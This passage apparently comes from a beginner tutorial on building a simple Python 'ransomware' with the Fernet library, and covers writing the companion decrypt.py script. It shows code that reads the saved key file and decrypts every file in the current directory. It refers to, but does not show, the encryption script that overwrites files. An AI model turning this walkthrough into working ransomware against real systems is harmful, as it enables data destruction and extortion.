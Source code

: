 
 ## Decyption script
 The decryption script will be similar to the encryption script, with just a few modification.
We'll just copy the _ransomware.py_ file to a new file called _decrypt.py_
we can do this simply by using the `cp` command at the terminal
```bash
cp ransomware.py decrypt.py
```
or you can do it the manual way, create a file called _decrypt.py_, then copy the contents of _ransomware.py_ and paste them to the new file yu've created _decrypt.py_

We'll need to make some minor cahnges to the _decrypt.py_ file.

Firstly, we'll again modify the first for loop which was adding the files in our directory to the files list, to also exempt the new file, _decrypt.py_
```python
for file in os.listdir():
    if file == 'ransomware.py' or file == 'thekey.key' or file == 'decrypt.py':
        continue
    if os.path.isfile(file):
        files.append(file)
```
We'll also get rid of key definition section that generated the key from fernet
so remove that statement
```python
key = Fernet.generate_key()
```
Next we'll modify the section that stored the key to an external file, since the key is already there in the file, we just want to read it and store it in a new variable
```python
with open("thekey.key","rb") as key:
    decryptkey = key.read()
```
So we open the already present file _thekey.key_ in read binary mode 'rb' and store its contents to a new variable **_decrpytkey_**

### Decryption
For the loop that encrpyted the contents of the files, we'll modify it now to decrypt
```python
for file in files:
    with open(file,"rb") as thefile:
        contents = thefile.read()
    decrypted_content = Fernet(decryptkey).decrypt(contents)

    with open(file, 'wb') as thefile:
        thefile.write(decrypted_content)
```
In the above snippet, we use a for loop, to iterate over all files in our files list
and for each file, we open it, in read binary mode 'rb', store the contents of the file in  a
variable called contents, then decrypt the contents using Fernet and store the decrypted contents in
another variable decrypted_contents, then again open the same file in write binary mode 'wb', and we'll 
rewrite the decrypted contents to the file, overwriting the existing content

